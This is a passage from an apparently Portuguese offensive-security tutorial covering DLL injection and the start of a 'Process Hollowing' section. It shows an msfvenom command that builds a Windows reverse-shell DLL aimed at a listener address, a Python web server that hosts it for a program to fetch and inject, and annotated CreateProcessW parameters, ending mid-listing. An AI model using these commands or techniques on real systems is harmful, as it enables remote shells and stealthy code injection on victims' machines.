 * Criando a dll unmanaged com o msfvenom e levantando um servidor web

```
[root@chucrutis /tmp] ➜ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.16 LPORT=1234 -f dll -o chucrutis.dll

[root@chucrutis /tmp] ➜ python3 -m http.server 1235
```

* Após a execução do programa, ele baixa a DLL do servidor Web e faz o programa alvo carregar essa DLL na memória


# Técnica "Process Hollowing"


## API's utilizadas

```c
BOOL CreateProcessW(
    // Nome da aplicação que será aberta
    LPCWSTR lpApplicationName,
    // O caminho do programa que será executado
    LPWSTR lpCommandLine,
    // Um ponteiro para uma estrutura SECURITY_ATTRIBUTES que determina se
    // o identificador retornado para o novo objeto de processo pode ser 
    // herdado por processos filho. Se lpProcessAttributes for NULL, o 
    // identificador não pode ser herdado.

    // O membro lpSecurityDescriptor da estrutura especifica um descritor
    // de segurança para o novo processo. Se lpProcessAttributes for NULL 
    // ou lpSecurityDescriptor for NULL, o processo obtém um descritor de 
    // segurança padrão.

    // Para o "Process Hollowing" colocaremos em nulo para receber as 
    // configurações padrões
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    // Como o parâmetro de cima, é um ponteiro para SECURITY_ATTRIBUTES,
    // mas iremos colocar nulo para obter os valores padrões
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    // Parâmetro setado para FALSO
    BOOL bInheritHandles,
    // Valor que define como o processo deve ser iniciado
    //
    // Valores possíveis:
    // CREATE_BREAKAWAY_FROM_JOB        => 0x01000000
    // CREATE_DEFAULT_ERROR_MODE        => 0x04000000
    // CREATE_NEW_CONSOLE               => 0x00000010
    // CREATE_NEW_PROCESS_GROUP         => 0x00000200
    // CREATE_NO_WINDOW                 => 0x08000000
    // CREATE_PROTECTED_PROCESS         => 0x00040000
    // CREATE_PRESERVE_CODE_AUTHZ_LEVEL => 0x02000000
    // CREATE_SECURE_PROCESS            => 0x00400000
    // CREATE_SEPARATE_WOW_VDM          => 0x00000800
    // CREATE_SHARED_WOW_VDM            => 0x00001000
    // CREATE_SUSPENDED                 => 0x00000004
    // CREATE_UNICODE_ENVIRONMENT       => 0x00000400
    // DEBUG_ONLY_THIS_PROCESS          => 0x00000002
    // DEBUG_PROCESS                    => 0x00000001
    // DETACHED_PROCESS                 => 0x00000008
    // EXTENDED_STARTUPINFO_PRESENT     => 0x00080000
    // INHERIT_PARENT_AFFINITY          => 0x00010000
    //
    // Para a técnica iremos utilizar a Flag CREATE_SUSPENDED
    DWORD dwCreationFlags,
```